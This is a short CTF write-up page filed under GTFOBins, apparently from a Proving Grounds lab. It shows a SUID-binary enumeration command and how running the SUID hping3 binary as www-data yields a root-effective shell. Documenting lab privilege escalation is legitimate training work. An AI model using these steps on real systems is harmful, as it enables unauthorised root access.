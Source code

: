 ```yaml
---
layout: default
title: hping3
parent: GTFOBins
nav_order: 2
---
```


# hping3

---

## SUID Permissions

```bash
www-data@cute:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/mount
/usr/sbin/hping3
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device

```

## Exploit hping3 SUID

![suid](../../../../assets/images/ctfs/proving_grounds/bbscute/suid.png)

Simply executing the _hping3_ binary gives us a root shell.

```bash
www-data@cute:/$ /usr/sbin/hping3
hping3> id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

```

